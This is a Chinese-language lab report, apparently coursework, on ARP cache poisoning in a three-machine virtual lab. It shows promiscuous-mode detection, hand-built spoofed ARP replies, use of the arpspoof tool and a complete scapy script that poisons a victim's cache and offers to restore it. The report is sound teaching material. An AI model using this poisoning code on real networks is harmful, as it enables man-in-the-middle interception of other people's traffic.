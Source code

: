 # 网络监听

## 实验目的

- 了解ARP投毒过程
- 熟悉scapy的使用

## 实验要求

- 使用至少三台机器，连接在同一个内部网络中

#### 网络拓扑

![](img/网络拓扑.png)

#### 基本节点信息

| id             | IP Address        | MAC Address       |
| -------------- | ----------------- | ----------------- |
| Gateway-debain | 172.16.111.1/24   | 08:00:27:e2:83:12 |
| kali-attacker  | 172.16.111.109/24 | 08:00:27:33:11:c0 |
| kali-victim    | 172.16.111.121/24 | 08:00:27:a6:1f:86 |

## 实验过程

#### 安装scapy

在攻击者主机中安装scapy（已经提前装好）

![](img/attack-scapy.png)

#### 实验一：检测局域网中的异常中断

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![](img/victim-eth0.png)

```shell
# 在攻击者主机上开启 scapy
scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.121")
```

![](img/attack-promiscping.png)

```shell
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 再次查看，多了promisc选项，开启了混杂模式
ip link show eth0
```

![](img/victim-promisc.png)

```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.121")
```

![](img/attack-promiscing2.png)

对比两次结果，发现在受害者主机开启混杂模式后，攻击者主机就检测到了受害者混杂模式的开启

```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

#### 实验二：手工单步“毒化”目标主机的ARP缓存

在攻击者主机上以scapy交互式终端完成“毒化”过程

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](img/构造ARP请求.png)

```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](img/获取网关mac地址.png)

```python
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.121
# ARP的源IP改为网关的IP地址
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:33:11:c0")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

查看受害者主机的ARP缓存

![](img/victim-ARP.png)

发现网关的MAC地址已经被替换为攻击者主机的MAC地址，说明毒害受害者ARP缓存成功

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e2:83:12", pdst="172.16.111.121", hwdst="08:00:27:a6:1f:86")
sendp(restorepkt1, count=100, inter=0.2)
## 伪装受害者给网关发送 ARP 响应
restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e2:83:12", psrc="172.16.111.121", hwsrc="08:00:27:a6:1f:86")
sendp(restorepkt2, count=100, inter=0.2)
```

查看受害者手机的ARP缓存，已经成功恢复

![](img/restore-arp.png)

#### 实验三：使用自动化工具完成ARP投毒劫持实验

在kali中有arpspoof工具用于完成ARP投毒劫持

```shell
sudo arpspoof -i eth0 -t 172.16.111.121<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>
```

![](img/tools-arp.png)

可以看到直接完成了ARP的投毒劫持实验，按Ctrl+C终止劫持，此攻击会自动完成恢复目标主机的ARP缓存过程。

![](img/restore.png)

#### 实验四：基于scapy编写ARP投毒劫持工具

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
from scapy.layers.l2 import getmacbyip

def get_mac(target_ip):
	'''
	use getmacbyip function to get target Ip's MAC address
	'''
	target_mac = getmacbyip(target_ip)
	if target_mac is not None:
		return target_mac
	else:
		print("无法获取IP为：%s 主机的MAC地址，请检查目标IP是否存活"%target_ip)
		
def create_arp_target(src_ip,src_mac,target_ip,target_mac):
	'''
    生成ARP数据包，伪造网关欺骗目标计算机
    src_mac:本机的MAC地址，充当中间人
    target_mac:目标计算机的MAC
    src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
    target_ip:目标计算机的IP
    op=is-at,表示ARP响应
	'''
	pkt = Ether()/ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
	return pkt
	
def create_arp_gateway(gateway_ip):

	pkt = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
	return pkt
	
def main():
	src_ip = "172.16.111.109"
	interface="eth0"
	src_mac = get_if_hwaddr(interface)
	print('本机IP地址是：', src_ip)
	print('本机MAC地址是:',src_mac)
	target_ip="172.16.111.121"
	target_mac=get_mac(target_ip)
	print("目标计算机IP地址是：", target_ip)
	print("目标计算机MAC地址是：", target_mac)
	gateway_ip = "172.16.111.1"
	arpbroadcast = create_arp_gateway(gateway_ip)
	# 发送这个 ARP 广播请求
	recved = srp(arpbroadcast, timeout=2)
	# 网关 MAC 地址如下
	gateway_mac = recved[0][0][1].hwsrc
	print("网关MAC地址是：", gateway_mac)
	arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
	sendp(arpspoofed)
	choice = input("是否恢复受害者主机ARP缓存(y/n):")
	if choice == 'y':
		restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
		sendp(restorepkt1,count=10,inter=0.1)
		restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
		sendp(restorepkt2,count=10,inter=0.1)
		
	
if __name__=='__main__':
	main()
```

![](img/auto-arp.png)

![](img/auto-restore-arp.png)



## 参考资料

- [课本第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [ARP欺骗工具arpspoof的用法](https://blog.werner.wiki/usage-of-arpspoof/)
- [Python scapy实现一个简易arp攻击脚本](https://www.jianshu.com/p/df5918069612)

